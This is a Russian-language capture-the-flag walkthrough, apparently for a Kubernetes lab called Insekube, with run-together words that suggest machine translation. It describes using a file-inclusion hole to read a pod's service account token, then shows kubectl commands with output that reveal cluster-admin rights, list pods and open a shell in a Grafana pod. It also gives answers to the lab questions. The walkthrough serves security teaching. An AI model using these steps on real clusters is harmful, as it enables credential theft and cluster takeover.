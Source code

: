 ## Задание 6
Kubernetes хранит токен учетной записи службы, запускающей модуль, в /var/run/secrets/kubernetes.io/serviceaccount/token.   

Используйте уязвимость LFI для извлечения токена. Токен подписан JWTкластером.

Используйте --tokenфлаг kubectlдля использования новой учетной записи службы. Еще раз используйте kubectlдля проверки разрешений этой учетной записи.

Инсекубэ
challenge@syringe:/tmp$ ./kubectl auth can-i --list --token=${TOKEN}
Resources                                       Non-Resource URLs                     Resource Names   Verbs
*.*                                             []                                    []               [*]
                                                [*]                                   []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
Учетная запись может делать *глагол на *.*ресурсе. Это означает, что это cluster-admin. С этой учетной записью службы вы сможете запустить любую kubectlкоманду. Например, попробуйте получить список подов.

Инсекубэ
challenge@syringe:/tmp$ ./kubectl get pods --token=${TOKEN}
NAME                       READY   STATUS    RESTARTS       AGE
grafana-57454c95cb-v4nrk   1/1     Running   10 (17d ago)   41d
syringe-79b66d66d7-7mxhd   1/1     Running   1 (17d ago)    18d
Используйте kubectl execдля получения оболочки в модуле Grafana. Флаг 3 вы найдете в переменных окружения.

Инсекубэ
challenge@syringe:/tmp$ ./kubectl exec -it grafana-57454c95cb-v4nrk --token=${TOKEN} -- /bin/bash
Unable to use a TTY - input is not a terminal or the right kind of file
hostname
grafana-57454c95cb-v4nrk
### Ответьте на вопросы ниже
Каково имя учетной записи службы, запускающей службу Grafana?
```commandline
developer
```
Сколько модулей запущено?
```commandline
2
```
Что такое флаг 3?